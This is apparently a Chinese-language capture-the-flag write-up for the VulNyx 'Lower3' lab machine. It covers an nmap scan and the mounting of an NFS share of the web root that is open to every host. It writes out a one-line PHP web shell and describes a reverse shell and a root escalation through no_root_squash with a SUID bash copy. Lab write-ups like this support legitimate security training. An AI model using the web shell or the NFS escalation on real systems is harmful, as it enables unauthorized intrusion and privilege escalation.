 ```yaml
---
title: "VulNyx-Lower3"
date: 2025-03-10
categories: 
  - "vulnyx"
tags: 
  - "linux"
  - "vulnyx"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Low |

## Nmap

```
[root@kali] /home/kali/Lower3  
❯ nmap 192.168.56.113 -sV -A -p- 

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp    open  http     Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36141/tcp   mountd
|   100005  1,2,3      46793/udp   mountd
|   100005  1,2,3      56285/tcp6  mountd
|   100005  1,2,3      57285/udp6  mountd
|   100021  1,3,4      37329/tcp6  nlockmgr
|   100021  1,3,4      39713/tcp   nlockmgr
|   100021  1,3,4      41715/udp   nlockmgr
|   100021  1,3,4      58173/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
36141/tcp open  mountd   1-3 (RPC #100005)
38315/tcp open  mountd   1-3 (RPC #100005)
39713/tcp open  nlockmgr 1-4 (RPC #100021)
41871/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:C5:C6:B4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## NFS

发现了 **NFS（Network File System）** 共享，可能存在可挂载的远程文件系统。 `mountd`、`nlockmgr`、`nfs_acl` 这些 RPC 端口也被发现，表明服务器可能允许远程文件访问。

```
[root@kali] /home/kali  
❯ showmount -e 192.168.56.113                                                                                                                                                                                 ⏎

Export list for 192.168.56.113:
/var/www/html *
```

目标机器通过 **NFS（Network File System）** 共享了 `/var/www/html` 目录，并且对所有主机开放挂载权限。

因此可以上传一个**Webshell**

```
[root@kali] /home/kali  
❯ mkdir /mnt/nfs

[root@kali] /home/kali  
❯ mount -t nfs 192.168.56.113:/var/www/html /mnt/nfs

[root@kali] /mnt/nfs  
❯ echo '<?php system($_GET["cmd"]);?>' > shell.php 
```

![](./images/image-178.png)

然后反弹到**shell**

![](./images/image-179.png)

直接进入用户目录拿到**user.txt**

![](./images/image-180.png)

## Root

仍然是通过**NFS**来提权

![](./images/image-181.png)

其中**no\_root\_squash**配置表示：登入 **NFS** 主机使用分享目录的使用者，如果是 **root** 的话，那么对于这个分享的目录来说，他就具有 **root** 的权限！

下面是两个参考的文章

- [Linux 提权-NFS 共享 - 扛枪的书生 - 博客园](https://www.cnblogs.com/kqdssheng/p/18310245#id5.2)

- [Linux提权姿势二：利用NFS提权-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1708369)

首先在**low**机器上把**bash**拷贝到当前目录，可以看到当前的拥有者是**low**

![](./images/image-182.png)

回到**kali**，由于我们是由**root**身份进行挂载的，因此对当前目录来说我们就是**root**！

只需要修改一下拥有者，然后赋予启动权限即可。

![](./images/image-183.png)

最后启动**bash -p**即可提升到**root**

![](./images/image-184.png)

## Summary

这个靶机比较简单，就是通过**NFS**来获取到**low**用户，再通过**kali**的**root**挂载，提升到**root**权限，就不多说了。
